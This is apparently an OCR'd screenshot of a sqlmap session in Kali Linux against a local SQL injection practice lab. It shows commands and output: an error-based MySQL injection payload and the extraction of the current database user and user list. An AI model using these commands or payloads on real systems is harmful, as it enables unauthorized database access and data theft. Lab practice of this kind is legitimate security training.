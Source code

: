 ```shell
[18:24:51] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'                                                           
┌──(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --current-user              

[20:27:43] [INFO] resuming back-end DBMS 'mysql' 
[20:27:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[20:27:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[20:27:43] [INFO] fetching current user
[20:27:44] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:27:44] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'
                                                                     
┌──(njh㉿kali)-[~]
└─$ sqlmap -u 'http://localhost:520/Less-1/?id=2%22' --technique=E --users                     

[20:31:01] [INFO] resuming back-end DBMS 'mysql' 
[20:31:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: id=2"' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162627871,(SELECT (ELT(3664=3664,1))),0x71706a7071,0x78))s), 8446744073709551610, 8446744073709551610)))-- xJdS
---
[20:31:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
[20:31:01] [INFO] fetching database users
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
[20:31:02] [INFO] retrieved: 'root'
database management system users [1]:
[*] root

[20:31:02] [INFO] fetched data logged to text files under '/home/njh/.local/share/sqlmap/output/localhost'
```
